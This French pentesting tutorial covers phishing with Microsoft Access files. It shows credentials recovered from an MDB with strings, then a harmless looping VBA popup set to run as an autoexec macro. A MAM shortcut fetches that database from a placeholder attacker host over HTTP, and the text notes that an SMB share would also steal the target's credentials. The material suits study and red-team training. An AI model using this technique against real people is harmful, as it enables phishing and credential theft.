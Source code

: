 Prérequis :

-   Programmation en VBA
-   Compréhension général des services Microsoft en Pentesting.
    

Comprendre le Sevice Access :

les fichiers avec pour extension ACCDE (Microsoft Access Execute Only Database) est un fichier utilisé pour protéger un ichier ACCDB. Il remplace le format MDE qui sécurise un fichier MDB utilisé par les anciennes versions d’Access. les permissions ne permettent pas de lire le code des macros (permissions Execute). C'est à dire que le code VBA d’un fichier ACCDE est enregistré de manière à empêcher quiconque de le voir ou de le modifier.

![](https://media.discordapp.net/attachments/909429116707680256/919240781158567986/unknown.png)

les differences majeur entre ACCDB et MDB c'est que ACCDB ne prennent pas en charge la sécurité ou la réplication au niveau de l’utilisateur alors que MDB oui, par contre ACCDB utilise un système cryptographique plus avancée via les API windows.

Exemple de fichier MDB :

![](https://media.discordapp.net/attachments/909429116707680256/919245188092801054/unknown.png)

Comme vous pouvez le voir les données sont partiellement chiffré on peut obtenir ces données : `Driver.SQLServer.SERVER\SQLEXPRESS` `UID: CEOuser` `PWD: CEOpassword`

Exemple de fichier ACCDB :

![](https://media.discordapp.net/attachments/909429116707680256/919246921380552704/unknown.png)

c'est illisible mais nous pouvons malgé tout avoir accès à certaines données via `strings`

![](https://media.discordapp.net/attachments/713142876241920000/919261585929809980/unknown.png)

MDB et ACCDB sont des bases de données de Microsoft Access, mais MDB n'est plus utilisé dans les versions récentes. Chaque DB contiennent différents objets comme les tables, requêtes, formulaires, états, ou encore des macros et du code VBA ( Visual Basic ). Les fichiers correspondant aux bases de données Access sont souvent lié à un fichier appellé LACCDB ou LDB pour les ancienne versions. ces fichiers sont des fichiers de verrouillage qui permettent de déterminer quels enregistrements sont verrouillés dans une base de données partagée et par qui ils sont verrouillés.

![](https://media.discordapp.net/attachments/909429116707680256/919249514563518495/unknown.png?width=522&height=343)

le but du phishing via Access peux permettre à un attaquant de gérérer un code VBA malveillant en ACCDE et en autoexec pour que au moment de l'execution la victime soit automatiquement redirigé vers le serveurs de l'attaquant.

pour l'exemple nous allons faire un code VBA innoffensif qui va faire une boucle sur la pop up.

```vb
Public Function main()
	func
End Function

Sub func()
	do
	  Msgbox"RISTBS LE AKER PRO",0+16,"An0nym0us"
	loop
End Sub
```

![](https://media.discordapp.net/attachments/713142876241920000/919256210790838352/unknown.png?width=974&height=192)

pour mettre une macro et mettre l'autoexec, aller dans `Créer`->`Macro` et ajouter l'action `ExcuterCode` puis mettre la fonction principal de ton code pour ma part c'est `main()` et après `Ctrl-S` nommez le _autoexec_.

Utilisation de MAM sur un serveur HTTP mais on peut utiliser un partage SMB ce qui va en meme temps volé les creds de la cible.

```powershell
[Shortcut Properties]
AccessShortcutVersion=1
DatabaseName=phishing.accdb
ObjectName=autoexec
ObjectType=Macro
Computer=DESKTOP-3IEFJ48
DatabasePath=http://<ip>/phishing.accde
EnableRemote=0
CreationTime= 1d7ee7f7e171f3a
Icon=265
```

![](https://media.discordapp.net/attachments/713142876241920000/919274348836171818/unknown.png?width=974&height=440)

Lors de l'execution du MAM voila ce qu'il ce passe.

![](https://media.discordapp.net/attachments/713142876241920000/919251022973653062/unknown.png?width=974&height=215)
